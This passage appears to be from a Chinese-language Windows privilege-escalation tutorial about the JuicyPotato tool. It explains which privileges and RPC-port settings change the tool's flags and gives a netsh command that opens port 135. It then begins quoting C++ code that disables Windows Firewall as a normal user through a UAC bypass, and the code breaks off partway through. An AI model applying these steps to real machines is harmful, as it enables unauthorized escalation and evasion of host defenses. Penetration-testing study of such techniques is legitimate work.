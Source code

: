 ```
whoami /priv
```

如果开启SeImpersonate权限，juicypotato的参数可以使用`-t t`

如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用`-t u`

如果均开启，可以选择`-t *`

如果均未开启，那么无法提权
## 2、查看RPC默认端口是否为135

如果被修改(例如为111)，juicypotato的参数可以使用`-n 111`

如果系统禁用了RPC，并不是一定无法提权，需要满足如下条件：

找到另一系统，能够以当前用户的权限进行远程RPC登录，此时juicypotato的参数可以使用`-k <ip>`

例如Win7、WIn8系统，默认配置下，允许135端口的入站规则即可进行远程RPC登录

添加防火墙规则允许135端口入站的命令如下：

```
netsh advfirewall firewall add rule name="135" protocol=TCP dir=in localport=135 action=allow
```

也可以选择将防火墙关闭，可参考绕过3gstudent写的UAC关闭防火墙的代码：  

```cpp

//Author: 3gstudent
//Use to disable Windows Firewall with normal user permissions.
//Expand on IFileOperation of UAC bypass.

#include <Strsafe.h>
#include <windows.h>
#include <netfw.h>

#define RTL_MAX_DRIVE_LETTERS 32
#define GDI_HANDLE_BUFFER_SIZE32  34
#define GDI_HANDLE_BUFFER_SIZE64  60
#define GDI_BATCH_BUFFER_SIZE 310
#define NtCurrentProcess() ( (HANDLE)(LONG_PTR) -1 )
#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

#if !defined(_M_X64)
#define GDI_HANDLE_BUFFER_SIZE      GDI_HANDLE_BUFFER_SIZE32
#else
#define GDI_HANDLE_BUFFER_SIZE      GDI_HANDLE_BUFFER_SIZE64
#endif

typedef ULONG GDI_HANDLE_BUFFER32[GDI_HANDLE_BUFFER_SIZE32];
typedef ULONG GDI_HANDLE_BUFFER64[GDI_HANDLE_BUFFER_SIZE64];
typedef ULONG GDI_HANDLE_BUFFER[GDI_HANDLE_BUFFER_SIZE];

typedef struct _UNICODE_STRING {
	USHORT Length;
	USHORT MaximumLength;
	PWSTR  Buffer;
} UNICODE_STRING;
typedef UNICODE_STRING *PUNICODE_STRING;


typedef struct _STRING {
	USHORT Length;
	USHORT MaximumLength;
```